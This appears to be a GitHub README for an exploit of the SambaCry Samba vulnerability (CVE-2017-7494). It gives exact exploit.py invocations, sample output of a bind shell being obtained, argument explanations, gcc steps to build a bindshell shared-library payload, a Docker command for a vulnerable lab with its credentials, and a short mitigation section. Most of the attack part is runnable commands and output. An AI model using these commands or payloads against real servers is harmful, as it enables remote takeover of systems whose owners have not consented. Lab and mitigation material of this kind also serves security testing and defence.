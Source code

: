 # ReverseShellArchive

[![Docker Pulls](https://img.shields.io/docker/pulls/vulnerables/cve-2017-7494.svg?style=plastic)](https://hub.docker.com/r/vulnerables/cve-2017-7494/)
![License](https://img.shields.io/badge/License-GPL-blue.svg?style=plastic)

Samba is a free software re-implementation of the SMB/CIFS networking protocol. Samba provides file and print services for various Microsoft Windows clients and can integrate with a Microsoft Windows Server domain, either as a Domain Controller (DC) or as a domain member. As of version 4, it supports Active Directory and Microsoft Windows NT domains.

Samba in **4.5.9** version and before that is vulnerable to a remote code execution vulnerability named **SambaCry**. CVE-2017-7494 allows remote authenticated users to upload a shared library to a writable shared folder, and perform code execution attacks to take control of servers that host vulnerable Samba services.

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4 does not restrict the file path when using Windows named pipes, which allows remote authenticated users to upload a shared library to a writable shared folder, and execute arbitrary code via a crafted named pipe.



### Exploit

![sambacry](sambacry.gif)

To properly run this exploit you will need a patched version of `impacket` python library and the other dependencies in requirements file. To install all of them, please run

```
pip install -r requirements.txt
```

If you run Python3, you need to run this software in a virtual environment. Please follow the steps:

```
pip install virtualenv
virtualenv -p /usr/bin/python2.7 venv # or wherever your python2.7 resides
source venv/bin/activate.sh
```

After that you can run it as the following:

```
./exploit.py -t <target> -e libbindshell-samba.so \
             -s <share> -r <location>/libbindshell-samba.so \
             -u <user> -p <password> -P 6699
```

For example, if you want to exploit the vulnerable environment with within this repository, run

```
./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
```

And you will get the following output

```
./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
[*] Starting the exploit
[+] Authentication ok, we are in !
[+] Preparing the exploit
[+] Exploit trigger running in background, checking our shell
[+] Connecting to 10.1.1.5 at 6699
[+] Veryfying your shell...
Linux 7a4b8023575a 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u1 (2017-02-22) x86_64 GNU/Linux
>>
```

Exploit's arguments explained:

```
usage: exploit.py [-h] -t TARGET -e EXECUTABLE -s REMOTESHARE -r REMOTEPATH
                  [-u USER] [-p PASSWORD] [-P REMOTESHELLPORT]
```

* `-t` or `—target` - Set the remote host to attack.
* `-e` or `—executable` - Set the path on your **local system** where the lib that you want to load is located.
* `-s` or `—remoteshare` - Remote share where the file will be copied.
* `-r` or `—remotepath` - Where the file is located on the **remote system**.
* `-u` or `—user` - Username to log in with.
* `-p` or `—password` - Password to use to log in with.
* `-P` or `—remoteshellport` - If you are using a bind shell payload, connect to the payload after the attack is executed.

### Vulnerable environment

To simulate this attack you can use a vulnerable docker image. If you have docker installed, just run

```
docker run --rm -it \
       -p 137-139:137-139 \
       -p 445:445 -p 6699:6699 \
       vulnerables/cve-2017-7494
```

If you want to access, use the following credentials.

* User: `sambacry`
* Password: `nosambanocry`



### Alternative payloads

You can find one example of binding shell payload for this exploit in `bindshell-samba.c` file. Change it as you may find necessary. After that to generate a new binary, use:

```
gcc -c -fpic bindshell-samba.c
gcc -shared -o libbindshell-samba.so bindshell-samba.o
```

### Afftected software

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4

### Mitigation

Add the parameter:

```
nt pipe support = no
```

to the `[global]` section of your smb.conf and restart smbd. This prevents clients from accessing any named pipe endpoints. Note this can disable some expected functionality for Windows clients.

Also consider mounting the filesystem which is used by samba for its writable share using `noexec` option.

### Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (opsxcq) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not opsxcq's responsibility.

